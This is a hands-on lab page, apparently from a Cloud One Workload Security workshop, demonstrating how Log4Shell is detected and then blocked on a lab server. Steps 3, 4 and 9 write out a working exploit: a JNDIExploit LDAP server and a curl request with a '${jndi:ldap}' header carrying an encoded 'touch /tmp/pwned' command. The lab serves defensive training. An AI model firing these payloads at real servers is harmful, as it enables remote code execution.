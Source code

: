 ```yaml
---
title: "Log4Shell"
chapter: false
weight: 52
pre: "<b>6.2 </b>"
---
```

 
<b>Log4j (or Log4Shell)</b>, is an open-source vulnerability that has presented many dire challenges for security teams, as it affects several widely used enterprise applications and cloud services. This includes Apache Struts, Apache Solr, Apache Druid, Apache Dubbo, Elasticsearch, and VMware vCenter.

Log4j vulnerability allows attackers to achieve remote code execution on the victim servers using the vulnerable versions of the popular library in exposed web applications/services.

![WS_Policy](/images/log4j_explanation.png)

---

#### 1. Navigate to Cloud One - Workload Security.

- Click **Computers**.
- Select the computer named **Log4** to open the policy details.
- Select **Anti-Malware**.
- Change the Configuration to **Off**.
- Click **Save**.

![WS_Policy](/images/log7.png)
![WS_Policy](/images/log14.png)


---

#### 1.1 With the Log4 server policy details open.

- Select **Intrusion Prevention**.
- Configuration: **On**.
- Intrusion Prevention Behavior: **Detect**.
- Click **Save**.

![WS_Policy](/images/logo8.1.png)

#### 1.2 Automatically recognize the security issues on the EC2 and apply virtual patching to protect the instance.

- Click **Scan For Recommendation**


{{% notice tip %}}
<p style='text-align: left;'>
Workload Security can run recommendation scans on computers to help identify intrusion prevention, integrity monitoring, and log inspection rules that should be applied or removed.

<b>Recommendation scans</b> provide a good starting point for establishing a list of rules that you should implement, but there are some important additional rules that are not identified by recommendation scans. You should implement those rules manually.

<a href="https://cloudone.trendmicro.com/docs/workload-security/recommendation-scans/" target="_top"> More details about Scan for Recommendations</a>
</p>
{{% /notice %}}


![WS_Policy](/images/log9.1.png)

#### 1.3 After a couple minutes, validate which Virtual Patching Rules have been applied.

- Click **Assign/Unassign** to open rules details.
- In the top-right search bar, search: <code>Log4J</code>

![WS_Policy](/images/log9.2.png)

---

#### 2. Navigate to AWS EC2
- Select the instance named: **Log4**
- Copy down the **Private IPv4 address**.
- Click on **Connect**
- Under **Session Manager** tab
- Click **Connect** to open session
- **Repeat this process to open a second shell session**.

![WS_Policy](/images/log1.png)
![WS_Policy](/images/log2.png)

---

#### 3. In the first shell session we will spin up our malicious LDAP server. 

- Run the following commands and leave the shell session alive.
- Be sure to add the **Log4** server's **private IP** address copied earlier.

```
sudo su
cd /home/ec2-user
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <**log4-server-private-ip-here**> -p 8888
```

![WS_Policy](/images/log3.png)


---

#### 4. In the second shell session we will run the exploit.
- Run the following commands and leave the shell session alive.
- Be sure to add the **Log4** server's **private IP** address.

```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://<**log4-server-private-ip-here**>:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

![WS_Policy](/images/log4.png)


---

#### 5. Return to the first shell session.
- Shown now is the received LDAP query the server received. 
- Command: touch /tmp/pwned

![WS_Policy](/images/log5.png)

---

#### 6. Verify if the exploit was successful.

- In the **second shell session** run the following command:

```
sudo docker exec vulnerable-app ls /tmp
```

This will confirm that the exploit was successful, notice that the file **/tmp/pwned.txt** was created in the container running the vulnerable application


![WS_Policy](/images/log6.png)


---

#### 7. Return to the Workload Security console.

- Click **Computers**.
- Select the computer named **Log4** to open the policy details.
- Select **Intrusion Prevention**.
- Select the **Intrusion Prevention Events** tab.
- Click **Get Events**.

![WS_Policy](/images/log10.png)


---

#### 8. Enable the policy to prevent future exploits.

- Click **Computers**.
- Select the computer named **Log4** to open the policy details.
- Select **Intrusion Prevention**.
- Intrusion Prevention Behavior: **Prevent**.
- Click **Save**.

![WS_Policy](/images/log11.png)


---

#### 9. Return to the second shell session.

- Remove the **pwned** file added by the exploit.
- Execute the attack again.

```
sudo docker exec vulnerable-app rm /tmp/pwned
sudo docker exec vulnerable-app ls /tmp
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://<**log4-server-private-ip-here**>:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```


![WS_Policy](/images/log12.png)


---

#### 10. Return to the Workload Security console.

- Click **Computers**.
- Select the computer named **Log4** to open the policy details.
- Select **Intrusion Prevention**.
- Select the **Intrusion Prevention Events** tab.
- Click **Get Events**.

![WS_Policy](/images/log13.png)


---

-----
#### Congratulations, you have protected this web app from Log4Shell exploits. :rocket: :cloud: